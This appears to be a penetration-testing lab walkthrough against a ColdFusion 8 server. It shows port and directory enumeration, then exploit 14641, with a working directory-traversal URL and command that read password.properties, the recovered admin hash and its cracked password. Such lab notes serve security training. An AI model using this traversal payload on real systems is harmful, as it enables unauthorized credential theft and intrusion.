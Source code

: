 Enumeration

Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.10
![b92e64a728aa058c4b5febbe5a0e419f.png](../../_resources/3fc3d4e1e6c14707860014985312cf6c.png)


# dirb
Non-recursive scan
### dirb http://10.11.1.10 -r
![98dda4b9588d5a0540d259886ea6d092.png](../../_resources/0aa9bda96ea74282a6d6e1c835be0437.png)

Recursive scan on the ColdFusion administrator link
### dirb http://10.11.1.10/CFIDE/administrator/
![5ddc04f72da2ffefece02756d716c513.png](../../_resources/174dc093aa6548fcb725b0a3854b76dc.png)


# Nikto
![eefe619c3d685418d98d47267130281c.png](../../_resources/e366bbd24d614977950cdb209ca3efb6.png)

# Searchsploit
Search for ColdFusion
![2e67ff55f9c36f2d567b76298dfaf193.png](../../_resources/0d9450d4cac0424f89c53547e59f07b4.png)

## Directory Traversal, exploit 14641
After examining the Directory Traversal exploit 14641 (-x switch), download it.
![3e57c568b5e3f1bd024c86bc67f0becb.png](../../_resources/59dad30f089a4c7193eef53a2d6610d7.png)

This is the exploit code for 14641
[14641.py](../../_resources/411c5cb7d09b473a9f8c5977f1552776.py)

The usage for 14641.py
![bc6ddb1276e12e02a04cf96b91e132c3.png](../../_resources/cd01eb8a9c07496091bccb7c1424117a.png)

Within the exploit,a string a working string is specified
### http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![b2a8db76f9a75cd8989dfc9c467b1455.png](../../_resources/7d87a6751b1a43b4a68a442c2e67615b.png)

Run exploit on the CLI. Ensure to use the target IP
### python 14641.py 10.11.1.10 80 ../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![d69d92157b69f1e4e7eda0c33ca7593d.png](../../_resources/d44c5551aae94cb7bbed9c3366ce22c1.png)

Run the exploit on the browser as well
### http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![cf8_passwd.png](../../_resources/fce1ee7db2b341b7a3b9d4dd8ce48813.png)

The Administrator has is found: 
### AAFDC23870ECBCD3D557B6423A8982134E17927E

# Crackstation

Crack the ColdFusion 8 'admin' password hash. Password is: pass123
![53f0079156bedae8e1bdb0175a5c8c3e.png](../../_resources/b0078eca3c04478caaa5bd23e33a6d7b.png)



# Other Tools
